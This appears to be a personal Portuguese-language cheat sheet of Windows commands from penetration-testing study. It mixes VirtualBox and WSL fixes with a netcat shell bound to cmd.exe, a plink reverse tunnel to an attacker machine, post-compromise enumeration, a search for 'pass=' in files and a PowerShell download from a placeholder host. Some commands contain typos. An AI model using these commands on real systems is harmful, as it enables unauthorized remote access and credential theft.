 # windows comandos

# erro virtualbox

- bcdedit
- bcdedit /set hypervisorlaunchtype off

# Docker wsl 2
- wsl.exe --list --all
- wsl --set-version Ubuntu-20.04 2
--------------
# tunelamento windows

c:\>nc.exe -vnlp 4444 -s 127.0.0.1 -e cmd.exe
outro commad
c:\>plink.exe -ssh -l usuario -pw senha -R 192.168.0.2:1337:127.0.0.1:4444 192.168.0.2 
kali (1337 vai ser a porta aberta direcionada 4444)
subir SSH porta 22

nc -v 127.0.0.1 1337
--------------------------
- whoami
- whoami /groups
- net user desec
- net user
- hostname
- systeminfo
- systeminfo | findstr "OS Name"
- systeminfo | findstr /C:"Os Name"
- tasklist.exe
- tasklist.exe /SVC
- ipconfig /all
- arp -a
- route print 
- netstat -amo
- sc query windefender
- netsh advfirewall show currentprofile
- where /R c:\ web.txt
- findstrg /s "pass=" *.txt
- type arquivo.txt
- systeminfo > arquivo.txt
- powershell -c "wget http://ahhaha/arquivo.php -Outfile arquivo.php
- c>\ runas /user:usuario cmd
